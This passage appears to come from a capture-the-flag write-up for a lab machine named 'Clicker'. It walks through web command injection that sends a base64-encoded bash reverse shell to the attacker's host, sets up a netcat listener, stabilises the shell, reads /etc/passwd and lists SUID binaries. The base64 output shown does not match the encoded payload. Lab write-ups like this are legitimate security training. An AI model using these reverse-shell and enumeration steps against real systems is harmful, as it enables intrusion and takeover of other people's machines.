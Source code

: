 This was the response

```
GET /admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_8o3cjv79.php HTTP/1.1
```


Now I inserted a reverse shell on the petition, encoded with base64

```
GET /exports/top_players_8o3cjv79.php?cmd=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODYvNDQ0NCAwPiYxCg==%22%20|%20base64%20-d%20|%20bash
```

### Explanation of the reverse shell:

First on my terminal
`echo "sh -i >& /dev/tcp/<your_ip>/4444 0>&1" | base64`

This was the output
`c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQ3LzkwMDEgMD4mMQo=`

Now on the browser

```
http://clicker.htb/exports/top_players_8o3cjv79.php?cmd=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODYvNDQ0NCAwPiYxCg==%22%20|%20base64%20-d%20|%20bash
```


Of course first I was listening with netcat on my terminal

`nc -nlvp 4444`


Now I use this to have a better tty, because if I use ctrl+z I will lose my reverse shell.
```
script /dev/null -c bash

ctrl +z
stty raw echo ;fg

export TERM=xterm
```

# USER:

Lets see the available users:

`cat /etc/passwd | grep sh`

This user exists , and is able to use a bash

`jack:x:1000:1000:jack:/home/jack:/bin/bash`

I found some interesting binaries with `find /`

```
find / -perm /4000 2>/dev/null

/usr/bin/sudo
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```